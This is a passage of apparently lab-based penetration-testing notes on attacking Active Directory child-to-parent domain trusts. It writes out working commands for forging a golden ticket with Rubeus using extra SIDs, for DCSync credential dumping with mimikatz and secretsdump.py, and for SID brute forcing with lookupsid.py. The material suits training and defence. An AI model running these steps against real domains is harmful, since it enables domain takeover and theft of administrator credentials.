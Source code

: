```powershell
 .\Rubeus.exe golden /rc4:<KRBTGT-LM-HASH> /domain:<CHILD.DOMIAN.LOCAL> /sid:<CHILD.DOMIAN.SID>  /sids:<Enterprise-Admins-group-SID> /user:<hacker> /ptt
```

#### Confirming the Ticket is in Memory Using klist
Once again, we can check that the ticket is in memory using the `klist` command.

```powershell
klist 

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
#         Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
```

## 3-  Performing a DCSync Attack

Finally, we can test this access by performing a DCSync attack against the parent domain, targeting the `lab_adm` Domain Admin user.
```powershell
.\mimikatz.exe
lsadump::dcsync /user:<DOMAIN>\<DOMAIN-ADMIN-USER> 
```
When dealing with multiple domains and our target domain is not the same as the user's domain, we will need to specify the exact domain to perform the DCSync operation on the particular domain controller. The command for this would look like the following:
```powershell
.\mimikatz.exe
lsadump::dcsync /user:<DOMAIN>\<DOMAIN-ADMIN-USER> /domain:<DOMAIN.LOCAL>
```

# 3- Attacking Domain Trusts - Child -> Parent Trusts - from Linux

We can also perform the **ExtraSIDs**  attack shown in the previous section from a Linux attack host. To do so, we'll still need to gather the same bits of information:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain
## ExtraSids Attack

### Method 1 : manually 
####  Get  Child Domain KRBTGT  NT Hash using DCSync  with secretsdump.py
Once we have complete control of the child domain, `CHILD.DOMAIN.LOCAL`, we can use `secretsdump.py` to DCSync and grab the NTLM hash for the Child Domain KRBTGT account.
```bash 
secretsdump.py <CHILD.DOMAIN.LOCAL>/<CHILD_DC_USER>@<CHILD_DC_IP> -just-dc-user <CHILD-DOMAIN-NetBIOSName>/krbtgt
```
#### Looking for the Domain SID
 Next Performing SID Brute Forcing using lookupsid.py .  we can use [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py) from the Impacket toolkit to perform SID brute forcing to find the SID of the child domain. In this command, whatever we specify for the IP address (the IP of the domain controller in the child domain) will become the target domain for a SID lookup. The tool will give us back the SID for the domain and the RIDs for each user and group that could be used to create their SID in the format `DOMAIN_SID-RID`. For example, from the output below, we can see that the SID of the `lab_adm` user would be `S-1-5-21-2806153819-209893948-922872689-1001`.
